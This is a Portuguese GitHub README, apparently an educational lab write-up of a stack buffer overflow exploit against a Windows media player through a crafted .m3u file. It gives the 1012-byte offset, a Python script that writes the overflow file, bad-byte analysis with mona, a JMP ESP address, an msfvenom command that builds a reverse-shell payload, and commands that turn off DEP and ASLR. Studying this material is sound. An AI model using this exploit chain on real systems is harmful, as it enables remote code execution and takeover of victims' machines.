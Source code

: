 # Vuln
buffer overflow.

Todos os testes foram realizados em ambiente próprio virtualizado.
Somente para fins educacionais!
1. Identificar a vulnerabilidade - OK
   
	1.1 - Black Box (fuzzing) - OK
   	1.2 - Reversing - OK

 
2. Verificar quantos bytes são necessários para chegar no RET.

Primeiros passos para depurar a aplicação vulnerável: através do dbg, executamos a aplicação e selecionamos o arquivo m3u modificado com 4000 chars. No entanto, ao executá-lo, ocorre uma exceção, conforme observado na imagem do x32 dbg.

![Screenshot from 2023-08-14 22-40-47](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/d17452de-47f3-4544-b07c-1b91799423c8)

   
	2.1 - https://wiremask.eu/tools/buffer-overflow-pattern-generator
 
 ![Screenshot from 2023-08-14 22-10-21](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/73ca66c2-014c-4731-9e24-222a1e3fccce)

	
	2.2 - Metasploit

![Screenshot from 2023-08-14 22-08-15](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/796abfe1-d62b-4160-83a4-11b7af56e7e3)

O pattern generator do msf foi usado para gerar 2000 bytes como exemplo de que pode ser feito por esta ferramenta:

![Screenshot from 2023-08-14 22-08-36](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/3693beaf-932c-40be-8b10-abe679643fdf)


O resultado a partir do EIP 0x68423768 mostrado na primeira imagem do debugger IDA pro, indica que precisamos de 1012 bytes para atingir o retorno, o mesmo resultado pode ser obtido pelo site buffer overflow pattern generator

![Screenshot from 2023-08-14 22-18-16](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/bd9738eb-d92f-4a6c-88c4-32417da27727)




	
3. Verificar "bad bytes" OK
. Usei o immunity debugger neste passo:

após realizar a instalação do immunity, realize a copia do arquivo mona.py para o diretorio C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
o script python está disponivel para download aqui no repositório.

abra o immunity, rode a aplicação vulneravél usada como exemplo aqui e digite { !mona bytearray } sem chaves, irá gerar um pattern de 00 a ff:

![Screenshot from 2023-08-15 23-20-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/961416e2-bfc4-4689-9414-9dbb28b8e5ba)

O codigo em python a seguir foi desenvolvido para gerar um exploit com os bad bytes mostrados no debugger

3.1

lixo = 'A' * 1012
ret = 'AAAA'
badbytes = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("xpl.m3u", "wb")

f.write(lixo+ret+badbytes)

f.close()


Rodamos o programa vuln com play 2x e abrimos nosso exploit, irá dar exceção e prossiga com Shit + f9
ECX, EBP e EIP será sobreescrito com 41414141,

![Screenshot from 2023-08-19 22-58-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/d9abb8ce-36ca-4115-8667-be7dbc14bf8d)


ESP estava em 0018E998, prossiga com o comando

!mona compare -f bytearray.bin -a 0018E998		//endereço entre as tags

![Screenshot from 2023-08-19 23-57-01](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/433f095a-8e8e-4142-a7a5-52e744fd3cb9)

o resultado informa que a corrupção ocorreu após 1 byte

inclusive podemos verificar na tabela que parou de funcionar no 0x00

![Screenshot from 2023-08-20 00-14-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/9c46d833-3842-4524-8f27-3de20372e6c7)

execute o comando:

mona! bytearray -cpb '\x00'

para gerar os badbytes sem x00, você pode copiar para o seu codigo python ou apenas deletar \x00 dos badbytes que já estão no seu codigo

![Screenshot from 2023-08-20 00-16-57](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/b9a4692d-d574-480b-90da-befba4a4fa8c)

após retirar o \x00, rode o programa novamente e use no reverse o novo arquivo gerado.

![Screenshot from 2023-08-22 21-23-43](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/4ca4de13-2b15-4e1f-bd92-c2f389245f58)

chegou no endereço com erro, rode o comando do mona compare novamente

!mona compare -f bytearray.bin -a < 0018E998 >		//endereço entre as tags

![Screenshot from 2023-08-22 21-27-21](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/44df17d8-1438-42eb-b78d-cdbeef2bf39c)

Desta vez a corrupção aconteceu após 8 bytes. Prosseguimos como da primeira vez, delete o byte que está negativo, desta vez o \x09.

!mona bytearray -cpb '\x00\x09'

altere o seu codigo python.

e assim em diante com os proximos que bytes que forem problemáticos, você os retira do seu exploit.

Quando receber a mensagem Unmodified, significa que todo o shellcode não foi modificado e você identificou todos os badbytes.

*-----BADBYTES-----*

\x00, \x09, \x0a, \x1a

*------------------*
3.2 


7. Criar shellcode sem os bad bytes

Abra o arquivo .m3u com seu editor de texto. Sabemos que o problema acontece após 1012 bytes, prossiga deletando todo o restante de chars e deixe apenas as letras 'A'

Substitua as quatro ultimas letras 'A' por 'B', após digite alguns chars 'C' e salve seu arquivo. Procedimento realizado apenas para que entenda facilmente!

![Screenshot from 2023-08-24 20-08-23](https://github.com/igusil/holho/assets/89313216/6097f0fe-0b92-4e58-b5fd-1258f59919df)

abra o programa x32dbg e rode o programa vulneravel, dê play 2x e abra seu arquivo modificado com as letras.

![Screenshot from 2023-08-24 20-08-40](https://github.com/igusil/holho/assets/89313216/2288b6ad-5f3f-43b0-aca2-fd1504d4f248)

Precisamos achar um endereço de memória que não tenha nenhum do bytes ruins e que tenha uma instrução JMP ESP ou CALL ESP.

Selecione exibir/Memory Map

![Screenshot from 2023-08-24 20-21-42](https://github.com/igusil/holho/assets/89313216/9d14a09b-690a-44ee-a442-664997b8edf9)

Ou podemos usar o Immunity Debugger para facilitar nossa vida! 

**************************************************************************************************************************************

Execute o immunity e rode seu programa vuln.
após rodar, digite na barra de pesquisa: !searchcode jmp esp.
vá em view/log e terá essas informações

![Screenshot from 2023-08-24 21-23-06](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/2c236aec-f3f9-450b-892f-25a468365333)

selecionamos a memória que não tem \x00, \x09, \x0a, \x1a

selecionamos 0x7dd93132 - kernel32.dll

9. Verificar como chamar o shellcode
    
	0x7dd93132

6.Exploit
Vamos usar o metasploit no kali linux (use a distro que desejar, basta instalar o metasploit), para gerar o shellcode. Estamos buscando um payload de conexão reversa para essa demonstração.

msfvenom -l payloads | grep "windows" | grep "reverse_tcp"

![Screenshot from 2023-08-24 21-52-23](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/7e7197fa-fb0b-42c3-a176-b7eb9ef51f65)

iremos usar o { windows/shell_reverse_tcp  } 32bits porque o nosso programa vuln é 32bits

{ msfvenom -p windows/shell_reverse_tcp --list-options  }
para verficar as opções do payload!

![Screenshot from 2023-08-24 22-04-54](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/99afb70a-5073-4f7e-bf89-c8cfdeb23f91)

podemos ver que falta apenas a opção LHOST ser preenchida, ali vai o ip da sua maquina!

-f	 { o formato será em python poque nosso exploit está escrito em python }

-b	 {bad chars que devem ser evitados, onde entra os que foram encontrados por nós }


{  msfvenom -p windows/shell_reverse_tcp LHOST=000.000.0.000 -f py -b '\x00\x09\x0a\x1a'  }

![Screenshot from 2023-08-24 22-17-44](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/5d9aea5f-f401-4e03-9d1d-bbb5f5c2fc8a)

Inserimos o shellcode gerado no nosso exploit com o endereço em litle endian porque a pilha funciona de trás para frente agrupando por 1 byte!

*****************************************************************************************************************************************************************

Resumindo: O exploit irá colocar 1012 A's, irá colocar o endereço de retorno, no endereço de retorno ele pula para um jmp esp e no esp estará o nosso shellcode!

iremos adicionar uma instrução de assembly que não faz nada chamada { nops }, 60 nops,por que 60 é multiplo de 4 e nossa memória 32bits está alinhada de 4bytes. Nosso exploit cai nos nops e vai pro shellcode.

*****************************************************************************************************************************************************************

![Screenshot from 2023-08-24 22-38-13](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/a4dff961-6ea2-49b1-80d9-9a8f03e85542)


Ps.: Desativar o DEP (Data Execution Prevention) e ASLR (Address Space Layout Randomization)

DEP: cli como admin e digite: bdcedit.exe /set {current} nx AlwaysOff

ASLR: abra o regedit e busca [HKLM\System\Current\CurrentControlSet\Control\Session Manager\Memory Management\]
cria um novo valor "DWORD" com nome "MoveImages" com valor 0



